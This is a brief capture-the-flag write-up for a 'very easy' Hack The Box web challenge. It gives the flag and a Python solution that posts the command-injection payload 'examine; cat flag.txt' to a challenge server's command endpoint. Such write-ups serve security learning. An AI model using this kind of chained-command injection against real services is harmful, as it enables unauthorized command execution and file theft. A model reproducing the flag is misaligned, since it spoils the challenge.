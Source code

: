 # Whispers of the moonbeam

## **Challenge Details**
- **Category**: Web
- **Difficulty**: Very Easy
- **Flag**: HTB{Sh4d0w_3x3cut10n_1n_Th3_M00nb34m_T4v3rn_1400cef298d876b0068e3a05822b0649}
- **Description**: 

---

## **Approach**
1. **Initial Observations**
It is a terminal application that accepts commands

![](attachments/image.png)

2. **Analysis**
Typing commands like `gossip`, `observer` and `examine`, we are provided with linux command output

![](attachments/image.png2)

Using the `;` character, we create a command injection payload and get the flag.

---
## **Solution**
```py
import requests

url = "http://94.237.61.133:51853/api/command"
payload = "examine; cat flag.txt"

data = {"command": payload}
r = requests.post(url, json=data)
print(r.text)
```